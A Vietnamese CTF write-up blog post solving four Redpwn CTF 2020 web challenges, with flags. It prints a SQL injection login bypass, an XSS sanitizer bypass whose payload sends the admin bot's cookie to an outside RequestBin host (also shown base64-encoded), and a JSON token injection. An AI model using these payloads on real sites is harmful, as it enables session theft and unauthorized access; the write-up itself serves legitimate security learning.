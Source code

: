 ```yaml
---
layout: post
title: Redpwn CTF 2020 - Web
subtitle: Web Security - CTF
tags: [ctf, web]
image: /img/redpwn.png
share-img: /img/redpwn.png
---
```


Nhân ngày đẹp trời đồ án mọi thứ xong xuôi vào chơi [ctf](https://ctftime.org/) thì thấy giải này nên apply chơi .. và nhận ra giải cực kì hay và chất lượng `well-made challenges` !


# Inspector General
<details>
    <summary>Challenge Description</summary>
    My friend made a new webpage, can you find a flag?
</details>

Chall nhìn qua thì nghe có vẻ phức tạp nhưng chỉ cần view source là thấy `flag`.
Đi đến `view-source:https://redpwn.net/` sẽ thấy flag ở `dòng 7`.

![Inspector-flag](../img/26062020/1.png)

<details>
  <summary>FLAG</summary>
  
  flag{1nspector_g3n3ral_at_w0rk}
</details>
 
***

# Login

<details>
  <summary>Challenge Description</summary>
  
  I made a cool login page. I bet you can't get in!
<br />
  Site: login.2020.redpwnc.tf
</details>

Nhìn sơ qua có vẻ như là chèn `simple SQLi`, nên đã thử `user: admin & pwd: 1' or '1'='1` hoặc `user: admin'; /*` sẽ alert ra flag.

<!-- ![Login-flag](../img/26062020/2.png) -->
<img src="/img/26062020/2.png" alt="Login flag" align="center"/>

<details>
  <summary>FLAG</summary>
  
  flag{0bl1g4t0ry_5ql1}
</details>

***

# Static-Pastebin

<details>
  <summary>Challenge Description</summary>
  
 I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here
<br />
  Site: static-pastebin.2020.redpwnc.tf
<br />
  Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>

Chall này có thể hiểu theo cách đơn giản nhất là thông qua 2 sites của chall thì 1 site sẽ tạo URL và site còn lại upload URL đó lên và Bot Admin sẽ truy cập thông qua URL đó trả về cookie kèm theo flag.

![Static-pastebin-site-1](../img/26062020/3.png)

Cứ mỗi khi mình tạo đoạn text sẽ có vài kí tự bị filter và hiển thị không như ý mình muốn, nên sẽ xem qua code js xem nó handles như thế nào...

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

Chúng ta có thể thấy khi create đoạn text lên site 1 sẽ bị decode bởi `atob()` và sau đó đi vào `clean()` nó sẽ không cho phép tạo ra đoạn text nếu như cú pháp từng dấu ngoặc không như ý nên sẽ không thực thi.. như vậy lúc này mình sẽ cố bypass qua đoạn này, lúc đầu mình nghĩ đến `HTML Entities` nhưng nó sẽ không thực thi được nên 1 lúc sau bypass được

```
><img src=1 href=1 onerror="javascript:document.location='https://[RequestBinURL]?cookie='+document.cookie"></img>
```

`RequestBin` là công cụ như `container request` cung cấp cơ chế trong đó server-side sẽ gọi đến client-side khi bắt một sự kiện nhất định nào đó.

Mình đến site thứ 2 và upload đoạn đã decode kèm theo XSS ở site 1 vào

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPTEgaHJlZj0xIG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5rbms4ZnppbGtscC54LnBpcGVkcmVhbS5uZXQ/Y29va2llPScrZG9jdW1lbnQuY29va2llIj48L2ltZz4=
```

Lúc này khi Admin Bot ghé thăm site vừa upload, đoạn mã XSS sẽ lấy cắp cookie của Admin Bot và gửi đến chính server của mình ở đây là [RequestBin](https://requestbin.com/) lúc này mình sẽ nhận lại đoạn request như thế này và kèm theo flag:

<!-- ![Static-pastebin-flag](../img/26062020/4.png) -->
<img src="/img/26062020/4.png" alt="Static pastebin flag" align="center"/>

<details>
  <summary>FLAG</summary>
  
  flag{54n1t1z4t10n_k1nd4_h4rd}
</details>


***

# panda-facts

<details>
  <summary>Challenge Description</summary>
  
I just found a hate group targeting my favorite animal. Can you try and find their secrets? We gotta take them down!

Site: panda-facts.2020.redpwnc.tf
Download: `index.js`
</details>

Thật ra ngay từ đầu vẫn chưa tìm ra hướng giải chỉ cắm cúi ngồi suy nghĩ về mấy function trong file index.js kia và có biết chút về NodeJS nhưng vẫn chưa mường tượng ra điều cần phải làm, nên đã hỏi thử tác giả thì hint rằng `Try to inject it`. Oh đến đây mới ngắm nghía lại đặc biệt là function này..

```javascript
async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);

    const cipher = crypto.createCipheriv(algorithm, key, iv);

    const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`

    let encrypted = '';
    encrypted += cipher.update(token, 'utf8', 'base64');
    encrypted += cipher.final('base64');
    return encrypted;
}
```

Thật sự để ý vào structure để tạo token không phải `token.username = username` mà là theo form nhất định như này..

```javascript
const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`
```

Chỉ cần filter lại cho member khác 0, mình chỉ cần set lại username là `shinta","member":1,"user":"shinta` và truy cập vào `/api/flag`..

<!-- ```
{
  "success": true,
  "flag": "flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}"
}
``` -->
<img src="/img/26062020/5.png" alt="Panda facts flag" align="center"/>

<details>
  <summary>FLAG</summary>
  
  flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}
</details>

***